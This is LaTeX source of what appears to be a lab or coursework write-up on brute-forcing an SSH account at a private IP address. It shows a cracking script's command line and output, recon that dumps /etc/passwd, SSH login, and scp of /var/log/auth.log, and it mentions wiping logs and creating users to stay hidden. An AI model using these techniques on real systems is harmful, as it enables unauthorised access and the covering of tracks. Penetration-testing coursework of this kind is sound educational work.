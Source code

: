 \documentclass[12pt]{report}
\newcommand{\term}[1]{\colorbox{light-gray}{\texttt{#1}}}
\begin{document}
To attack Price's SSH account \textit{('phillip')} at the IP address 192.168.254.132 on port 442 with the wordlist \textit{('passwords.txt')}, the script can run using:\\
\term{./sshcrack\_mp.py phillip:192.168.254.132:442 passwords.txt}\footnote{Usage in this way requires a virtual environment in \texttt{venv} with the pexpect dependency installed in it}

The output, with a section of the failed password attempts removed for brevity, is:
\begin{Verbatim}[frame=leftline]
Loaded 393 passwords from 'passwords.txt'
(001/393; 00.25%) Password != '0'
(002/393; 00.51%) Password != 'scorpio'
(003/393; 00.76%) Password != 'buddy'
...
(222/393; 56.49%) Password != 'trustno1'
(223/393; 56.74%) Password != 'newyork'
(224/393; 57.00%) Password == 'qwertyuiop'
Took 0.96 minutes to check 224/393 passwords at a rate of 3.88pw/s.
Performing recon...
Logging out.
\end{Verbatim}

From the output above, I could see that the script successfully broke into Price's SSH account using the password: \texttt{qwertyuiop}


\section{Examining Price's account}
A reconnaissance phase is performed automatically as the last step in the script used to break into Price's SSH account. In this stage, the script calls a couple of commands over the SSH connection and writes the results into a \texttt{recon.txt} file on the attack machine. A copy of this file is included in Appendix~\ref{app:files:recon} -- included in this is a \term{cat} of the \texttt{/etc/passwd} file.

I could see from the \texttt{recon.txt} file that Price is a member of the sudo group. This made the rest of the investigation easier to conceal as I could wipe/modify logs and create new users in order to keep the investigation concealed.

Using the password discovered in the previous step of the investigation, I logged into Price's account via SSH to examine it and the machine remotely, and to gather more intelligence. [see screenshot proving log in and intel gathering] The command that I used to connect over SSH was:\\
\term{ssh -p 442 phillip@192.168.254.132}

I also used \texttt{scp} to pull a copy of the \texttt{/var/log/auth.log} from Price's machine -- it is attached, in a reduced form, in Appendix~\ref{app:files:authlog}. To do this, I used the command:\\
\term{scp -P 442 phillip@192.168.254.132:/var/log/auth.log auth.log}
\end{document}
